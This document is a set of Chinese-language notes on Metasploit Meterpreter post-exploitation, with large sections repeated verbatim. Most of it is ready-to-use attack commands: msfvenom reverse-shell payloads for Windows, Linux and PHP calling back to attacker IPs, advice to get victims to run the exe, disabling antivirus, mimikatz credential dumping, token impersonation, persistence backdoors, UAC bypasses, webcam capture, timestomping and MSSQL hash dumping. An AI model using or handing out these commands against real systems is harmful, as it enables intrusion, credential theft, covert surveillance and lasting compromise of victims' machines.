


# 获取Meterpreter会话

https://blog.csdn.net/qq_36119192/article/details/83215257

https://blog.rapid7.com/2018/09/14/metasploit-wrapup-57/

https://www.bodkin.ren/index.php/archives/458/

```
https://uknowsec.cn/posts/uncategorized/%E5%90%8E%E6%B8%97%E9%80%8F%E4%B9%8Bmeterpreter%E4%BD%BF%E7%94%A8%E6%94%BB%E7%95%A5.html
```


## 什么是Meterpreter

Meterpreter属于`stage payload`，在Metasploit Framework中，Meterpreter是一种`后渗透工具`，它属于一种在运行过程中可通过网络进行功能扩展的`动态可扩展型Payload`。这种工具是基于“`内存DLL注入`”理念实现的，它能够通过创建一个`新进程并调用注入的DLL来让目标系统运行注入的DLL文件`。

## Meterpreter是如何工作的？

首先目标先要执行初始的溢出漏洞会话连接，可能是 bind正向连接，或者反弹 reverse 连接。反射连接的时候加载dll链接文件，同时后台悄悄处理 dll 文件。其次Meterpreter核心代码初始化,通过 socket套接字建立一个TLS/1.0加密隧道并发送GET请求给Metasploit服务端。Metasploit服务端收到这个GET请求后就配置相应客户端。最后，Meterpreter加载扩展，所有的扩展被加载都通过TLS/1.0进行数据传输。

## Meterpreter的特点：

`Meterpreter完全驻留在内存`，没有写入到磁盘
Meterpreter注入的时候不会产生新的进程，`可以很容易的移植到其它正在运行的进程`!
默认情况下， Meterpreter的通信是加密的，所以很安全
扩展性，许多新的特征模块可以被加载。


##  使用msfvenom生成payload 尝试链接到meterpreter

下面三选一(*32是我写着玩的*)生成一个反射shell连接到主机。
```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /re.exe

msfvenom -p windows/x32/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /jojo_32.exe

msfvenom -p windows/meterpreter/reverse_tcp lhost=接受ip地址 lport=接收端口 -f exe -o rabbit.exe
```

msf调用这个框架
```
 use exploit/multi/handler
```
绑定payload
```
set payload windows/x64/meterpreter_reverse_tcp 
```
填写链接参数
``` 
set lhost 192.168.100.82  //设置接受payload的地址，我们这里设置MSF的地址
```
```
set lport 6565          // 设置接受的端口，这个自己自定义，只要不与其它端口冲突就可以
```
填写链接端口
```
 run           \\GKDGKD
```
然后获得会话

我们要想从 `meterpreter 退出到MSF框架`，输入：
```
background
```

## 你只要想方设法让他点击到这个exe即可 接下来交给老爹!
 
将生成的exe文件或者其它类型的payload文件在目标上执行，就可以获得一个meterpreter会话，之后就可以使用msf开展后渗透测试的相关工作。


## 可能会用到的常用代码整理

## load -l

查看所有可以使用的插件
```
espia                --侦测脚本
extapi               --营地 
incognito            --假冒他人身份
kiwi                 --转储密码和哈希
lanattacks           
mimikatz             --猕猴桃 这个太著名可以自己搜
peinjector           --投影仪
powershell           --ps脚本
priv
python
sniffer       --网络嗅探器 数据收集
stdapi               --命名空间的漏洞
unhook               --脱钩
winpmem              
```
https://blog.rapid7.com/2018/09/14/metasploit-wrapup-57/

# 第一件事！！！！！

## 关闭杀毒软件 

拿到目标主机的shell后第一件事就是关闭掉目标主机的杀毒软件，通过命令：
```
run  killav
命令行关闭Denfnder：
Net stop windefend
```

# 伪装要做好--绑定其他进程

Meterpreter 既可以单独运行，`也可以与其他进程进行绑定`。因此，`我们可以让Meterpreter与类似explorer.exe这样的进程进行绑定`，并以此来实现可持续化发展。

我们这此和winlogon.exe绑定 顺手还可以捕获键盘记录。


我们可以使用： 
```
 getpid      \\ 查看我们当前的进程id
```
使用
```
migrate  ID号            \\绑定目标进程id     
```

> 这里绑定目标pid的时候，经常会断了 shell。进程迁移后会自动关闭原来进程，没有关闭可使用  kill  pid  命令关闭进程

如果你一筹莫展不知道应该混进那个进程，可以用自动迁移
```
run post/windows/manage/migrate        \\系统会自动寻找合适的进程然后迁移。
```


### 文件上传
```
upload <file> <destination>
\\上传文件到Windows主机 注意：使用-r参数可以递归上传上传目录和文件
```
### 文件下载
```
download <file> <path to save>
 \\可以下载远程主机上的文件,
 
 如果我们需要递归下载整个目录包括子目录和文件，我们可以使用download -r命令
```
### 文件执行
```
在目标主机上执行exe文件
execute -f <path> [options]
```
### 获取权限
```
获取admin权限
getsystem
```
目标主机上执行exe文件
```
execute -H -i -f cmd.exe \\
  创建新进程cmd.exe，-H不可见，-i交互

  execute -f <path> [options]   \\在目标主机上执行exe文件
```
### 显示进程
```
ps
```
### 创建端口转发
```
portfwd add -l <端口号> -r <目标IP> 

```
```
portfwd add -l 3389 -r 192.168.11.13 -p 3389                   #将192.168.11.13的3389端口转发到本地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址
```

> 然后我们只要访问本地的3389端口就可以连接到目标主机的3389端口了

### 删除端口转发
```
portfwd delete -l <端口号> -p <端口号> -r <目标IP>   
```
  如果你想显示所有端口转发记录，你可以使用`portfwd list`命令，如果你想删除所有的记录，可以使用`portfwd flush`命令
<br>
<br>
### 文件搜索
```
search -f *.txt(文件名称)
```
### 获取用户ID
```
getuid
```
### 获取系统信息
```
sysinfo
```
### 模拟任意用户(token操作)

```
use incognito
list_tokens -u
impersonate_token “Machine\\user”
```
### 抓取密码和获取密码
```
load mimikatz              \\使用load mimikatz加载mimikatz模块
```
```
ssp       \\抓取密码

wdigest    \\用户储存在内存里的明文密码。

wdigest(获取WDigest凭据)

msv （获取msv凭据（hash））

kerberos （获取kerberos）
```


## 代码整理

### 操作文件系统

[meterpreter会话渗透利用常用的32个命令归纳小结](https://www.cnblogs.com/wjw-zm/p/11689260.html)
```
1.文件的基本操作
ls：列出当前路径下的所有文件和文件夹。

pwd 或 getwd：查看当前路径。

search：搜索文件，使用search -h查看帮助。

cat：查看文件内容，比如cat test.txt。

edit：编辑或者创建文件。和Linux系统的vm命令类似，同样适用于目标系统是windows的情况。

rm：删除文件。

cd：切换路径。

mkdir：创建文件夹。

rmdir：删除文件夹。

getlwd 或 lpwd：查看自己系统的当前路径。

lcd：切换自己当前系统的目录。

lls：显示自己当前系统的所有文件和文件夹。
```

- 1、background命令

返回，把meterpreter后台挂起

- 2、session命令
session 命令可以查看已经成功获取的会话
可以使用session -i 连接到指定序号的meterpreter会话已继续利用

- 3、shell命令
获取目标主机的远程命令行shell
如果出错，考虑是目标主机限制了cmd.exe的访问权，可以使用migrate注入到管理员用户进程中再尝试

用python获取标准shell:
python shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
- 5、getwd命令
获取系统工作的当前目录

- 6、upload命令
上传文件到目标主机，例如把后门程序setup.exe传到目标主机system32目录下

`upload  setup.exe  C:\\windows\\system32\`

- 7、download命令
把目标主机上的文件下载到我们的攻击主机上
例如：把目标主机C盘根目录下的boot.ini文件下载到攻击主机的/root/目录下
`download C:\\boot.ini /root/`

- 9、search命令
在目标主机文件系统上查找搜索文件
例如：search  -d  c:\\  -f  *.doc
在目标主机C盘下搜索doc文档

- 10、ipconfig命令
这个不多说，查看目标主机上的网络参数

- 11、portfwd命令
端口转发
例如目标主机上开启了3389，但是只允许特定IP访问，攻击主机无法连接，可以使用portfwd命令把目标主机的3389端口转发到其他端口打开
例如：`portfwd  add -l  1122 -p 3389 -r  192.168.250.176`
把目标主机192.168.250.176的3389端口转发到1122端口
这是只需要连接目标的1122端口就可以打开远程桌面了
`rdesktop  -u  administrator  -p  123456  192.168.250.176:1122`
- 12、route命令
这个也不多说，显示目标主机上的主机路由表

- 13、getuid
查看meterpreter注入到目标主机的进程所属用户

- 14、sysinfo
查看目标主机系统信息


### 系统其它操作

```
1.关闭防病毒软件
run killav

run post/windows/manage/killav

```
### 操作远程桌面

```
run post/windows/manage/enable_rdp      \\开启远程桌面

run post/windows/manage/enable_rdp username=test password=test       \\添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

## 后门

Meterpreter的`shell运行在内存中`，目标重启就会失效，如果管理员给系统打上补丁，那么就没办法再次使用exploit获取权限，所以需要持久的后门对目标进行控制。

Msf提供了两种后门，一种是`metsvc(通过服务启动)`，一种是`persistence(支持多种方式启动)`。

### 1.metsvc

```
(1) 使用`run metsvc -h`查看帮助，一共有三个参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-h：查看帮助

-r：删除后门
```

(2) 安装后门
```
命令：run metsvc
```

命令运行成功后会在C:WindowsTEMP目录下新建随机名称的文件夹，里面生成3个文件（metsvc.dll、metsvc-server.exe、metsvc.exe）。

3)链接后门
```
use exploit/multi/handler
```
payload设置为windows/metsvc_bind_tcp
```
set payload windows/metsvc_bind_tcp
```
然后设置目标ip和绑定端口31337
```
set rhost 192.168.100.84
```
```
set lport 31337
```
运行程序
```
run
```
## 2.persistence

(1) 使用run persistence -h查看参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-L：自启动脚本的路径，默认为%TEMP%

-P：需要使用的payload，默认为
```
windows/meterpreter/reverse_tcp
```
-S：作为一个服务在系统启动时运行（需要SYSTEM权限）

-T：要使用的备用可执行模板

-U：用户登陆时运行

-X：系统启动时运行

-i：后门每隔多少秒尝试连接服务端

-p：服务端监听的端口

-r：服务端ip

(2) 生成后门
```
命令：run persistence -X -i 10 -r 192.168.1.9 -p 4444

run persistence -X -i 10 -r 192.168.100.82 -p 4545 
```


(3) 连接后门

使用exploit/multi/handler模块，payload设置为
```
windows/meterpreter/reverse_tcp
```

，同时设置好服务端监听ip和端口。


## 1.什么是UAC？

Microsoft的Windows Vista和Windows Server 2008操作系统引入了一种良好的用户帐户控制架构，以防止系统范围内的意外更改，这种更改是可以预见的，并且只需要很少的操作量。它是Windows的一个安全功能，它支持防止对操作系统进行未经授权的修改，UAC确保仅在管理员授权的情况下进行某些更改。如果管理员不允许更改，则不会执行这些更改，并且Windows系统保持不变。

## 2.UAC如何运行？

UAC通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行。除非尝试执行这些操作的进程以管理员权限运行，否则这些操作将无法运行。如果您以管理员身份运行程序，则它将具有更多权限，因为它将被“提升权限”，而不是以管理员身份运行的程序。

因为有的用户是没有管理员权限，没有管理员权限是运行不了哪些只能通过管理员权限才能操作的命令。比如修改注册表信息、创建用户、读取管理员账户密码、设置计划任务添加到开机启动项等操作。

最直接的提权命令：getsystem

绕过UAC防护机制的前提是我们首先通过explloit获得目标主机的meterprter。获得meterpreter会话1后，输入以下命令以检查是否是system权限。在这里我就不直接演示了，直接上命令，自己多练习练习即可，所话说熟能生巧。我们需要把获取到的session保存到后台，执行background


方法一:

`use exploit/windows/local/bypassuac ` //将通过进程注入使用可信任发布者证书绕过Windows UAC。它将生成关闭UAC标志的第二个shell。
```
set session 1  //使用sessino 1

Exploit        //执行权限提升的攻击模式
```
执行完毕成功后，再次查询当前用户的权限就会提升到管理员权限。我这里已经是管理员权限了，所以会出现这样的提示。


方法二：Windows权限提升绕过UAC保护（内存注入）

此模块将通过进程注入使用可信任的发布者证书绕过Windows UAC。它将生成关闭UAC标志的第二个shell。在普通技术中，该模块使用反射式DLL注入技术并只除去了DLL payload 二进制文件，而不是三个单独的二进制文件。但是，它需要选择正确的体系架构（对于SYSWOW64系统也使用x64）。执行完毕以下命令，当前用户权限就会变为管理员权限。
```
use exploit/windows/local/bypassuac_fodhelper

set session 1

Exploit   
```
方法三：通过COM处理程序劫持  

首先介绍一下这个COM处理程序劫持，此模块将通过在hkcu配置单元中创建COM处理程序注册表项来绕过Windows UAC。当加载某些较高完整性级别进程时，会引用这些注册表项，从而导致进程加载用户控制的DLL。这些DLL包含导致会话权限提升的payload。此模块修改注册表项，但在调用payload后将清除该项。这个模块需要payload的体系架构和操作系统匹配，但是当前的低权限meterpreter会话体系架构中可能不同。如果指定exe:：custom，则应在单独的进程中启动payloa后调用ExitProcess（）。此模块通过目标上的cmd.exe调用目标二进制文件。因此，如果cmd.exe访问受到限制，此模块将无法正常运行。

命令执行：

use exploit/windows/local/bypassuac_comhijack

set session 1

Exploit

方法四：通过Eventvwr注册表项 (特别麻烦，很难实现 --就是我没成功)

首先介绍一下这个模块，此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows事件查看器时调用的自定义命令来绕过Windows UAC。它将生成关闭UAC标志的第二个shell。此模块修改注册表项，但在调用payload后将清除该项。该模块不需要payload的体系架构和操作系统匹配。如果指定EXE ::Custom，则应在单独的进程中启动payload后调用ExitProcess（）。

use exploit/windows/local/bypassuac_eventvwr

set session 1

Exploit

以上的本地提权的模块大家可以本地去测试一下，除了这些某块还有其它的通过直接通过incognito中的add_localgroup_user提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc域权限提升等其它的权限提升方法。小白在内网渗透测试的过程中发现一些客户的服务器大多数为2003、2008服务器，很少2012、2016服务器。

内网渗透


------------------------------------------------------------

* # 以下代码谨慎使用 

## uictl开关键盘/鼠标

```
uictl [enable/disable] [keyboard/mouse/all]  #开启或禁止键盘/鼠标
```
```
uictl disable mouse  #禁用鼠标
```
```
uictl disable keyboard  #禁用键盘
```


## webcam摄像头命令

```
webcam_list  #查看摄像头
```
```
webcam_snap   #通过摄像头拍照
```
```
webcam_stream   #通过摄像头开启视频
```
## 在目标系统播放目标文件

```
play /root/1.mp3
```
## 查看 == ls
```
 pwd 
```
## meterpreter load

加载模块

```
load -l             \\查看可以加载的所有模块
```


# 文件系统命令

## 基本文件系统命令

```
getwd 或者pwd # 查看当前工作目录  
```
```
ls
```
```
cd
```
```
search -f *pass*       # 搜索文件  -h查看帮助
```
```
cat c:\\lltest\\lltestpasswd.txt  # 查看文件内容
```
```
upload /tmp/hack.txt C:\\lltest  # 上传文件到目标机上
```
```
download c:\\lltest\\lltestpasswd.txt /tmp/ # 下载文件到本机上
```
```
edit c:\\1.txt #编辑或创建文件  没有的话，会新建文件
```
```
rm C:\\lltest\\hack.txt
```
```
mkdir lltest2  #只能在当前目录下创建文件夹
```
```
rmdir lltest2  #只能删除当前目录下文件夹
```
```
getlwd   或者 lpwd   #操作攻击者主机 查看当前目录
```
```
lcd /tmp   #操作攻击者主机 切换目录
```

## timestomp伪造时间戳

```
timestomp C:// -h   #查看帮助
```
```
timestomp -v C://2.txt   #查看时间戳
```
```
timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt
```


# 获取Meterpreter会话

```
https://uknowsec.cn/posts/uncategorized/%E5%90%8E%E6%B8%97%E9%80%8F%E4%B9%8Bmeterpreter%E4%BD%BF%E7%94%A8%E6%94%BB%E7%95%A5.html
```

##  使用msfvenom生成payload

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /re.exe

msfvenom -p windows/x32/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /jojo_32.exe

msfvenom -p windows/meterpreter/reverse_tcp lhost=接受ip地址 lport=接收端口 -f exe -o rabbit.exe
```


```
 use exploit/multi/handler
```
```
set payload windows/x64/meterpreter_reverse_tcp 
```
``` 
set lhost 192.168.100.82  //设置接受payload的地址，我们这里设置MSF的地址
```
```
set lport 6565          // 设置接受的端口，这个自己自定义，只要不与其它端口冲突就可以
```
```
 run
```
然后获得会话

## 你只要想方设法让他点击到这个exe即可 接下来交给老爹!
 
将生成的exe文件或者其它类型的payload文件在目标上执行，就可以获得一个meterpreter会话，之后就可以使用msf开展后渗透测试的相关工作。


## 可能会用到的常用代码整理

## load -l

查看所有可以使用的插件
```
espia
extapi
incognito
kiwi
lanattacks
mimikatz
peinjector
powershell
priv
python
sniffer
stdapi
unhook
winpmem
```


### 文件上传
```
upload <file> <destination>
\\上传文件到Windows主机 注意：使用-r参数可以递归上传上传目录和文件
```
### 文件下载
```
download <file> <path to save>
 \\可以下载远程主机上的文件,

 如果我们需要递归下载整个目录包括子目录和文件，我们可以使用download -r命令
```
### 文件执行
```
在目标主机上执行exe文件
execute -f <path> [options]
```
### 获取权限
```
获取admin权限
getsystem
```
目标主机上执行exe文件
```
execute -H -i -f cmd.exe \\
  创建新进程cmd.exe，-H不可见，-i交互

  execute -f <path> [options]   \\在目标主机上执行exe文件
```
### 显示进程
```
ps
```
### 创建端口转发
```
portfwd add -l <端口号> -r <目标IP>
```
### 删除端口转发
```
portfwd delete -l <端口号> -p <端口号> -r <目标IP>   
```
  如果你想显示所有端口转发记录，你可以使用`portfwd list`命令，如果你想删除所有的记录，可以使用`portfwd flush`命令
<br>
<br>
### 文件搜索
```
search -f *.txt(文件名称)
```
### 获取用户ID
```
getuid
```
### 获取系统信息
```
sysinfo
```
### 模拟任意用户(token操作)

```
use incognito
list_tokens -u
impersonate_token “Machine\\user”
```
### 抓取密码和获取密码
```
load mimikatz              \\使用load mimikatz加载mimikatz模块
```
```
ssp       \\抓取密码
wdigest    \\用户储存在内存里的明文密码。
```

''x


## 代码整理

### 操作文件系统

```
1.文件的基本操作
ls：列出当前路径下的所有文件和文件夹。

pwd 或 getwd：查看当前路径。

search：搜索文件，使用search -h查看帮助。

cat：查看文件内容，比如cat test.txt。

edit：编辑或者创建文件。和Linux系统的vm命令类似，同样适用于目标系统是windows的情况。

rm：删除文件。

cd：切换路径。

mkdir：创建文件夹。

rmdir：删除文件夹。

getlwd 或 lpwd：查看自己系统的当前路径。

lcd：切换自己当前系统的目录。

lls：显示自己当前系统的所有文件和文件夹。
```

### 系统其它操作

```
1.关闭防病毒软件
run killav

run post/windows/manage/killav

```
### 操作远程桌面

```
run post/windows/manage/enable_rdp      \\开启远程桌面

run post/windows/manage/enable_rdp username=test password=test       \\添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

## 后门

Meterpreter的`shell运行在内存中`，目标重启就会失效，如果管理员给系统打上补丁，那么就没办法再次使用exploit获取权限，所以需要持久的后门对目标进行控制。

Msf提供了两种后门，一种是`metsvc(通过服务启动)`，一种是`persistence(支持多种方式启动)`。

### 1.metsvc

```
(1) 使用`run metsvc -h`查看帮助，一共有三个参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-h：查看帮助

-r：删除后门
```

(2) 安装后门
```
命令：run metsvc
```

命令运行成功后会在C:WindowsTEMP目录下新建随机名称的文件夹，里面生成3个文件（metsvc.dll、metsvc-server.exe、metsvc.exe）。

3)链接后门
```
use exploit/multi/handler
```
payload设置为windows/metsvc_bind_tcp
```
set payload windows/metsvc_bind_tcp
```
然后设置目标ip和绑定端口31337
```
set rhost 192.168.100.84
```
```
set lport 31337
```
运行程序
```
run
```
## 2.persistence

(1) 使用run persistence -h查看参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-L：自启动脚本的路径，默认为%TEMP%

-P：需要使用的payload，默认为
```
windows/meterpreter/reverse_tcp
```
-S：作为一个服务在系统启动时运行（需要SYSTEM权限）

-T：要使用的备用可执行模板

-U：用户登陆时运行

-X：系统启动时运行

-i：后门每隔多少秒尝试连接服务端

-p：服务端监听的端口

-r：服务端ip

(2) 生成后门
```
命令：run persistence -X -i 10 -r 192.168.1.9 -p 4444

run persistence -X -i 10 -r 192.168.100.82 -p 4545 
```


(3) 连接后门

使用exploit/multi/handler模块，payload设置为
```
windows/meterpreter/reverse_tcp
```

，同时设置好服务端监听ip和端口。


## 1.什么是UAC？

Microsoft的Windows Vista和Windows Server 2008操作系统引入了一种良好的用户帐户控制架构，以防止系统范围内的意外更改，这种更改是可以预见的，并且只需要很少的操作量。它是Windows的一个安全功能，它支持防止对操作系统进行未经授权的修改，UAC确保仅在管理员授权的情况下进行某些更改。如果管理员不允许更改，则不会执行这些更改，并且Windows系统保持不变。

## 2.UAC如何运行？

UAC通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行。除非尝试执行这些操作的进程以管理员权限运行，否则这些操作将无法运行。如果您以管理员身份运行程序，则它将具有更多权限，因为它将被“提升权限”，而不是以管理员身份运行的程序。

因为有的用户是没有管理员权限，没有管理员权限是运行不了哪些只能通过管理员权限才能操作的命令。比如修改注册表信息、创建用户、读取管理员账户密码、设置计划任务添加到开机启动项等操作。

最直接的提权命令：getsystem

绕过UAC防护机制的前提是我们首先通过explloit获得目标主机的meterprter。获得meterpreter会话1后，输入以下命令以检查是否是system权限。在这里我就不直接演示了，直接上命令，自己多练习练习即可，所话说熟能生巧。我们需要把获取到的session保存到后台，执行background


方法一:

`use exploit/windows/local/bypassuac ` //将通过进程注入使用可信任发布者证书绕过Windows UAC。它将生成关闭UAC标志的第二个shell。
```
set session 1  //使用sessino 1

Exploit        //执行权限提升的攻击模式
```
执行完毕成功后，再次查询当前用户的权限就会提升到管理员权限。我这里已经是管理员权限了，所以会出现这样的提示。


方法二：Windows权限提升绕过UAC保护（内存注入）

此模块将通过进程注入使用可信任的发布者证书绕过Windows UAC。它将生成关闭UAC标志的第二个shell。在普通技术中，该模块使用反射式DLL注入技术并只除去了DLL payload 二进制文件，而不是三个单独的二进制文件。但是，它需要选择正确的体系架构（对于SYSWOW64系统也使用x64）。执行完毕以下命令，当前用户权限就会变为管理员权限。
```
use exploit/windows/local/bypassuac_fodhelper

set session 1

Exploit   
```
方法三：通过COM处理程序劫持  

首先介绍一下这个COM处理程序劫持，此模块将通过在hkcu配置单元中创建COM处理程序注册表项来绕过Windows UAC。当加载某些较高完整性级别进程时，会引用这些注册表项，从而导致进程加载用户控制的DLL。这些DLL包含导致会话权限提升的payload。此模块修改注册表项，但在调用payload后将清除该项。这个模块需要payload的体系架构和操作系统匹配，但是当前的低权限meterpreter会话体系架构中可能不同。如果指定exe:：custom，则应在单独的进程中启动payloa后调用ExitProcess（）。此模块通过目标上的cmd.exe调用目标二进制文件。因此，如果cmd.exe访问受到限制，此模块将无法正常运行。

命令执行：

use exploit/windows/local/bypassuac_comhijack

set session 1

Exploit

方法四：通过Eventvwr注册表项 (特别麻烦，很难实现 --就是我没成功)

首先介绍一下这个模块，此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows事件查看器时调用的自定义命令来绕过Windows UAC。它将生成关闭UAC标志的第二个shell。此模块修改注册表项，但在调用payload后将清除该项。该模块不需要payload的体系架构和操作系统匹配。如果指定EXE ::Custom，则应在单独的进程中启动payload后调用ExitProcess（）。

use exploit/windows/local/bypassuac_eventvwr

set session 1

Exploit

以上的本地提权的模块大家可以本地去测试一下，除了这些某块还有其它的通过直接通过incognito中的add_localgroup_user提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc域权限提升等其它的权限提升方法。小白在内网渗透测试的过程中发现一些客户的服务器大多数为2003、2008服务器，很少2012、2016服务器。

内网渗透


------------------------------------------------------------

* # 以下代码谨慎使用 

## uictl开关键盘/鼠标

```
uictl [enable/disable] [keyboard/mouse/all]  #开启或禁止键盘/鼠标
```
```
uictl disable mouse  #禁用鼠标
```
```
uictl disable keyboard  #禁用键盘
```


## webcam摄像头命令

```
webcam_list  #查看摄像头
```
```
webcam_snap   #通过摄像头拍照
```
```
webcam_stream   #通过摄像头开启视频
```
## 在目标系统播放目标文件

```
play /root/1.mp3
```
## 查看 == ls
```
 pwd 
```
## meterpreter load

加载模块

```
load -l             \\查看可以加载的所有模块
```


# 文件系统命令

## 基本文件系统命令

```
getwd 或者pwd # 查看当前工作目录  
```
```
ls
```
```
cd
```
```
search -f *pass*       # 搜索文件  -h查看帮助
```
```
cat c:\\lltest\\lltestpasswd.txt  # 查看文件内容
```
```
upload /tmp/hack.txt C:\\lltest  # 上传文件到目标机上
```
```
download c:\\lltest\\lltestpasswd.txt /tmp/ # 下载文件到本机上
```
```
edit c:\\1.txt #编辑或创建文件  没有的话，会新建文件
```
```
rm C:\\lltest\\hack.txt
```
```
mkdir lltest2  #只能在当前目录下创建文件夹
```
```
rmdir lltest2  #只能删除当前目录下文件夹
```
```
getlwd   或者 lpwd   #操作攻击者主机 查看当前目录
```
```
lcd /tmp   #操作攻击者主机 切换目录
```

## timestomp伪造时间戳

```
timestomp C:// -h   #查看帮助
```
```
timestomp -v C://2.txt   #查看时间戳
```
```
timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt
```


---

## MSF 实验笔记

### Payload

#### Stager中几种常见的payload
```
windows/meterpreter/bind_tcp       #正向连接
windows/meterpreter/reverse_tcp    #反向连接，常用
windows/meterpreter/reverse_http   #通过监听80端口反向连接
windows/meterpreter/reverse_https  #通过监听443端口反向连接
```

### reverse_tcp  
> 基于TCP的反向链接shell。

  1. linux
       1.  CLI下生成payload
       ```shell
      msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=42.193.104.247 lport=5678  -f elf -o shell.elf
      ```
      2. 或者在MSF下生成一个shell
        ```         use payload/linux/x86/meterpreter/reverse_tcp 设置Option
         set lhost 自己ip
         set lport 自己端口
         generate -f elf -o /shell.elf     # -o出文件到指定目录
        ```
      3. 在目标靶机上执行文件
        ```
        chmod 777 shell.elf
        ./shell.elf
        ```
      4. msf下开启`handler`监听.
        ```
        msf  >  use exploit/multi/handler
        msf  >  set payload linux/x86/meterpreter/reverse_tcp #设置的payload要和生成的相同
        msf  >  set LHOST 自己IP
        msf  >  run
        ```
        

  2. windos
     1. CLI下生成payload
        ```
        msfvenom -p windows/meterpreter/reverse_tcp lhost=[你的IP] lport=[端口] -f exe -o 要生成的文件名

       msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.91.129 port=4444 -f exe -o shell.exe
        ```
    2. 设置msf
       ```
        msf  >  use exploit/multi/handler
        msf  >  set payload windows/meterpreter/reverse_tcp #设置的payload要和生成的相同
        msf  >  set LHOST 自己IP
        msf  >  run

        执行以下shell命令在一个Meterpreter会话界面中使用cmd shell：
        shell
        whoami
       ```
        

  3. [PHP](https://www.fujieace.com/kali-linux/meterpreter-reverse_tcp-handler.html)
      ```
      msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.91.129 LPORT=4444 -f raw > shell.php

        msf  >  use exploit/multi/handler
        msf  >  set payload php/meterpreter_reverse_tcp  #设置的payload要和生成的相同
        msf  >  set LHOST 自己IP
        msf  >  run
      ```
      

### bind_tcp
  1. linux
  > 这是一个基于TCP的正向连接shell，因为在内网跨网段时无法连接到attack的机器，所以在内网中经常会使用，不需要设置LHOST。
    ```
    msfvenom -p linux/x86/meterpreter/bind_tcp lport=4444  -f elf -o shell.elf    设置目标自己打开的端口

    MSF:
    use exploit/multi/handler
    set payload linux/x86/meterpreter/bind_tcp #设置的payload要和生成的相同
    set rhost 目标IP
    set lport 目标链接端口
    exploit
    ```


### 数据库

对应不同数据库写不同shell
#### Mssql

**查找/捕获服务器的口令**

这里，用到的是Metasploit的mssql_hashdump模块。
```shell
# 已知目标 mssql密码，获取服务器的密码
use auxiliary/scanner/mssql/mssql_hashdump
show options
set RHOSTS 192.168.91.131
set PASSWORD 123456
run
```


**重新载入xp_cmd功能**
```
use auxiliary/admin/mssql/mssql_exec
show options
set CMD 'whoami'
set RHOST 192.168.109.139
set PASSWORD 123456
run
```


use exploit/windows/mssql/mssql_payload
set RHOST 192.168.23.100 (我们的目标)
set password Password01 (我们刚刚获取的密码)
set payload/windows/meterpreter/reverse_tcp(our selected payload)
exploit


